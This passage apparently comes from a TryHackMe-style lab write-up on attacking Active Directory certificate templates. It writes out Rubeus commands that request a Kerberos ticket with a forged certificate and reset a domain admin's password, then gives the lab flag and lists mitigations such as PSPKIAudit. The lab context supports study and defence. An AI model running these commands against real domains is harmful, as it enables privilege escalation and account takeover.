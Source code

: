 ```
        [*] Building the KRV-PRIV structure
        [+] Password change success!
```

You can now authenticate as this user to the Domain Controller and recover the final flag. Well done! You have now compromised DA! As an added bonus, let’s look at the `runas` command, which we can use to authenticate as another user in the command prompt. We can use the following command in cmd to authenticate as the now compromised DA user:

```
runas /user:lunar.eruca.com\<username of DA> cmd.exe
```

You will be prompted to provide the password for the associated account. If correct, `runas` will spawn a command prompt window for you as the specified user, which you can now use for administrative duties.

### **Questions**

* What is the value of the flag stored on the Administrator’s Desktop?

```
Rubeus.exe asktgt /user:svc.gitlab /enctype:aes256 /certificate:C:\Users\thm\Desktop\VulnCert.pfx /password:Password1@ /outfile:kerbtgt_svc_gitlab /domain:lunar.e
ruca.com /dc:10.10.251.195
```

![](2025-05-31-ad-certificate-templates-24.png)

![](2025-05-31-ad-certificate-templates-25.png)

```
Rubeus.exe changepw /ticket:kerbtgt_svc_gitlab /new:Password1@ /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\da-nread
```

![](2025-05-31-ad-certificate-templates-26.png)

```
runas /user:lunar.eruca.com\da-nread cmd.exe
```

![](2025-05-31-ad-certificate-templates-27.png)

* thus our answer is - `THM{AD.Certs.Can.Get.You.DA}`

## Mitigations and Fixes

So how can you actually defend against these Certificate Template attacks?

There isn’t really an easy answer, but there are some good defense techniques:

* Review all the certificate templates in your organisation for poisonous parameter combinations. You can use [PSPKIAudit](https://github.com/GhostPack/PSPKIAudit) to assist with this.
* In cases where poisonous parameter combinations cannot be avoided, make sure that there are stopgaps such as having to require Admin Approval before the certificate will be issued.
* Update your playbooks. Most organisations’ playbooks will include something along the lines of resetting the credentials for a compromised account. As pointed out here, that’s not really going to remedy the persistent access. Therefore, reviewing certificates that were issued would be required and the malicious certificate will have to be revoked.
